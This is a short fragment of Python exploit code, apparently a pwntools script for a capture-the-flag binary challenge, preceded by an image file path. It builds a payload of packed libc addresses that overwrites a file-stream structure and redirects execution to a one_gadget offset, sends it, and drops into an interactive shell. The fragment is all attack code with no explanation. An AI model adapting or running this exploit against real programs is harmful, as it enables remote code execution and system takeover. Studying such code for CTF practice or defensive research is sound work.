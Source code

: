 ```
    del result[-1]
    del result[-1]
    if len(result) == 16:
        break

payload = '\x00'*5 + p64(libc_addr+0x3c6790)
payload += p64(0xffffffffffffffff) + p64(0x0000000000000000)
payload += p64(libc_addr + 0x3c49c0) + p64(0)*3
payload += p64(0x00000000ffffffff) + p64(0)*2 + p64(libc_addr + 0x3c49c0)
payload += p64(0)*2 + p64(libc_addr + one_gadget_offset)*10
p.sendline(payload)
p.recvuntil('Your choice:')
p.interactive()
```


